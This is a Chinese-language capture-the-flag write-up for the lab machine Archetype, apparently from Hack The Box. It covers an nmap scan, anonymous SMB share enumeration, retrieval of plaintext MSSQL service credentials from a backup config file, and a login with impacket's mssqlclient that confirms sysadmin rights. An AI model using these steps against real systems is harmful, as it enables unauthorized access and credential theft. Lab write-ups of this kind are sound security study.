 对靶机进行扫描`nmap -A 10.10.10.27`

![](nmap.png)

1. 445/tcp端口,用于Windows系统的共享文件夹

2. 1433/tcp端口,用于MSSQL端口

---

首先对445端口的共享文件夹进行查看

`smbclient -N -L 10.10.10.27`

![](smbclient.png)

尝试对文件夹内的内容进行读取

```bash
➜  ~ smbclient -N \\\\10.10.10.27\\ADMIN$
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
tree connect failed: NT_STATUS_ACCESS_DENIED
➜  ~ smbclient -N \\\\10.10.10.27\\C$    
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
tree connect failed: NT_STATUS_ACCESS_DENIED
➜  ~ smbclient -N \\\\10.10.10.27\\IPC$
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> exit
➜  ~ smbclient -N \\\\10.10.10.27\\backups
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 20:20:57 2020
  ..                                  D        0  Mon Jan 20 20:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 20:23:02 2020

                10328063 blocks of size 4096. 8259343 blocks available
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> exit
➜  ~ 
```

在`backups`文件夹下有一个`prod.dtsConfig`文件,其内容为

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

可以知道用户名为`ARCHETYPE\sql_svc`,而密码为`M3g4c0rp123`

用[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)下的`mssqlclient.py`进行数据库连接

`python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`注意用户名使用的是`/`(看了write up才知道...)

用`SELECT IS_SRVROLEMEMBER('sysadmin')`查看当前权限

[https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15#examples](https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15#examples)

```SQL
IF IS_SRVROLEMEMBER ('sysadmin') = 1  
   print 'Current user''s login is a member of the sysadmin role'  
ELSE IF IS_SRVROLEMEMBER ('sysadmin') = 0  
   print 'Current user''s login is NOT a member of the sysadmin role'  
ELSE IF IS_SRVROLEMEMBER ('sysadmin') IS NULL  
   print 'ERROR: The server role specified is not valid.';
```

![](sysadmin.png)

当前权限为`sysadmin`

